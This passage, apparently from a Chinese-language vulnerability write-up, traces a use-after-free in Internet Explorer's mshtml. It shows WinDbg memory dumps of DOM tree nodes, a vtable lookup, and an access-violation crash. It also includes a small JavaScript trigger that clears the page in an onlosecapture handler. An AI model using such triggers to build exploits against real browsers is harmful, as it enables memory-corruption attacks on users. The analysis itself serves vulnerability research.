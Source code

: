 此时已经完成了节点的位置转换，我们查看整个DOM树的结构，首先要看元素对象偏移`0x14`的位置，这是对应的`CTreeNode`节点在内存中的指针，经过转换后`CTreeNode`节点指针发生了变化
```
id_0:0x077bcfd8 + 0x14 => 0x078cefb0
077bcfd8 b0 71 46 66 02 00 00 00 08 00 00 00 00 00 00 00  .qFf............
077bcfe8 00 8f ad 05 b0 ef 8c 07 60 00 00 00 00 02 01 80  ........`.......
077bcff8 02 00 00 00 30 2f cc 05 ?? ?? ?? ?? ?? ?? ?? ??  ....0/..????????
077bd008 ?? ?? ?? ?? ?? ?? ?? ?? ?? ?? ?? ?? ?? ?? ?? ??  ????????????????

id_1:0x078eafc8 + 0x14 => 0x078aafb0
078eafc8 90 c5 56 66 02 00 00 00 08 00 00 00 e8 ef 8e 07  ..Vf............
078eafd8 d0 8e ad 05 b0 af 8a 07 75 00 00 00 00 02 01 80  ........u.......
078eafe8 02 00 00 00 30 2f cc 05 f4 cf 8e 07 00 00 00 00  ....0/..........
078eaff8 00 00 00 00 00 00 00 00 ?? ?? ?? ?? ?? ?? ?? ??  ........????????
```

根据上面的偏移，找到对应的`CTreeNode`节点对象，我们观察两者的父节点，可以观察到`id_1`的父节点变成了`id_0`
```
id_0_CTreeNode:0x078cefb0
078cefb0 d8 cf 7b 07(b0 7f 13 07)60 02 02 00 01 00 03 00  ..{.....`.......
078cefc0 61 00 00 00 00 00 00 00 d8 af 8a 07 e0 2f 8d 07  a............/..
078cefd0 e0 2f 8d 07 c0 af 8a 07 62 00 00 00 00 00 00 00  ./......b.......
078cefe0 e0 8f 8d 07 d8 af 8a 07 d8 af 8a 07 e0 8f 8d 07  ................
078ceff0 08 00 00 00 00 00 00 00 00 00 00 00 d0 d0 d0 d0  ................

id_1_CTreeNode:0x078aafb0
078aafb0 c8 af 8e 07(b0 ef 8c 07)75 02 02 00 01 00 00 00  ........u.......
078aafc0 51 00 00 00 00 00 00 00 00 00 00 00 d8 ef 8c 07  Q...............
078aafd0 c0 ef 8c 07 d8 af 8a 07 62 01 00 00 01 00 00 00  ........b.......
078aafe0 c0 af 8a 07 c0 ef 8c 07 c0 af 8a 07 d8 ef 8c 07  ................
078aaff0 08 00 00 00 00 00 00 00 00 00 00 00 d0 d0 d0 d0  ................
```

我们通过命令行来观察
```
0:005> ln poi(poi(poi(0x078aafb0+0x04)))
Browse module
Set bu breakpoint

(664671b0)   mshtml!CPhraseElement::`vftable'   |  (664673d8)   mshtml!CBlockElement::`vftable'
Exact matches:
    mshtml!CPhraseElement::`vftable' = <no type information>
```

最后，当`id_0`失去焦点时，清空整个页面
```
id_0.onlosecapture = function(e) {
    document.write("");
}
```

那么关于DOM树的构建过程，我们到这里就分析完了，接下来的部分侧重漏洞细节

清空所有断点跑起来，异常堆访问
```
0:005> g
(3a0.bbc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=07137fb0 ecx=06c67680 edx=0421bdf0 esi=00000000 edi=07137fb0
eip=66652b49 esp=0421c008 ebp=0421c010 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
mshtml!CDoc::HasContainerCapture+0x14:
66652b49 8b0f            mov     ecx,dword ptr [edi]  ds:0023:07137fb0=????????
```
